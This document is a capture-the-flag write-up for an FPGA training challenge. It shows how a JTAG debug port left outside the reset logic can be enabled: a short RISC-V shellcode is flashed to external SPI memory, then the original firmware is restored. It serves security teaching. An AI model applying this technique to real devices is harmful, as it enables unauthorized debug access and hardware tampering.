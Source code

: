 Challenge 5 : Enable JTAG (Firmware version)
============================================

.. note:: 

    This challenge can be disable, to change the configuration edit the file ``config.ini`` and modify the field ``jtag_lock_firmware``. This challenge is part of the challenges that revolves around the JTAG, this implies that if other challenges are activated it will change the Migen code used as well as the Verilog code generated, however the principle of the challenge remains the same. For more details I invite you to look at the : ``ip/jtag_lock.py``.

.. warning::

    This challenge requires more installation than the previous ones since we use an external SPI flash memory to store the firmware and boot on it. It is therefore necessary to have a SPI programmer.

Introduction
------------

This challenge concerns the JTAG debugging port, at the startup of the FPGA board the JTAG port is disabled, to know the status of the JTAG port a command is available in the administration panel. The ``status`` command allows to display if the JTAG port is enabled or not and if it is blocked by a password or unblocked (this is only displayed if a JTAG port locking challenge has been activated). The hardware description error here is that the JTAG interface enable status is not connected to the reset logic. To exploit this vulnerability we will modify the contents of the external SPI flash memory to execute the JTAG activation and then reset the original firmware. Since the JTAG interface is not connected to the reset logic we reboot while keeping the state of the JTAG interface. We use this technique to respect the CTF rules. This challenge is considered to have a high difficulty.

Analysis of the Board Support Package headers
---------------------------------------------

In this part, we will quickly analyze the header file csr.h, this header file writes all the necessary functions to write to the CSR from the firmware. It is an essential file for the development of application for our SoC. We can see that there is a function to activate the JTAG and a second one to control the LEDs. These functions give us the addresses where the 2 CSRs are mapped :

* ``0xF0002000`` is the adress where the CSR which control the JTAG interface is memory mapped.
* ``0xF0003000`` is the adress where the CSR which control the LEDs is memory mapped.

We can therefore try to write a shellcode that we will put on the flash memory to activate the JTAG and activate the first LED to show that the shellcode has been executed.

.. code-block:: c

    ...

    /* jtag */
    #define CSR_JTAG_BASE (CSR_BASE + 0x2000L)
    #define CSR_JTAG_JTAG_LOCK_ADDR (CSR_BASE + 0x2000L)
    #define CSR_JTAG_JTAG_LOCK_SIZE 1
    static inline uint32_t jtag_jtag_lock_read(void) {
        return csr_read_simple((CSR_BASE + 0x2000L));
    }
    static inline void jtag_jtag_lock_write(uint32_t v) { // Write 1 to enable JTAG
        csr_write_simple(v, (CSR_BASE + 0x2000L));
    }
    #define CSR_JTAG_JTAG_STATUS_ADDR (CSR_BASE + 0x2004L)
    #define CSR_JTAG_JTAG_STATUS_SIZE 1
    static inline uint32_t jtag_jtag_status_read(void) {
        return csr_read_simple((CSR_BASE + 0x2004L));
    }

    ...

    /* leds */
    #define CSR_LEDS_BASE (CSR_BASE + 0x3000L)
    #define CSR_LEDS_OUT_ADDR (CSR_BASE + 0x3000L)
    #define CSR_LEDS_OUT_SIZE 1
    static inline uint32_t leds_out_read(void) {
        return csr_read_simple((CSR_BASE + 0x3000L));
    }
    static inline void leds_out_write(uint32_t v) { // Write 1 to set LED 1 to on
        csr_write_simple(v, (CSR_BASE + 0x3000L));
    }

    ...

Writing the shellcode
---------------------

The shellcode is very short we just have to write 1 to the 2 addresses we found before, using 32 bit RiscV instrcutions and in little endian.

Here is the shellcode is used to exploit the bug. The next step to use it is to convert it into ``.fbi`` file using LiteX `utilities <https://github.com/enjoy-digital/litex/wiki/Load-Application-Code-To-CPU#spiflash-boot>`_.

.. code-block:: 

        00000000 93 07 10 00     li         a5,0x1
        00000004 37 27 00 f0     lui        a4,0xf0002
        00000008 23 20 f7 00     sw         a5,0x0(a4=>DAT_f0002000)
        0000000C 37 37 00 f0     lui        a4,0xf0003
        00000010 23 20 f7 00     sw         a5,0x0(a4=>DAT_f0003000)

Resolve the challenge
---------------------

When starting the FPGA board we can see that the firmware is recovered from the external flash memory and that the JTAG interface is not activated.

.. image:: images/firmware_disable.png
  :width: 750
  :alt: The JTAG interface is disable

The we execute the shellcode put in the external memory, and the first LED turn on.

.. image:: images/firmware_shellcode.png
  :width: 750
  :alt: Execute shellcode

Finally we put the original firmware back in the external memory and reset the board, and the JTAG interface is now enable.

.. image:: images/firmware_done.png
  :width: 500
  :alt: The JTAG interface is enable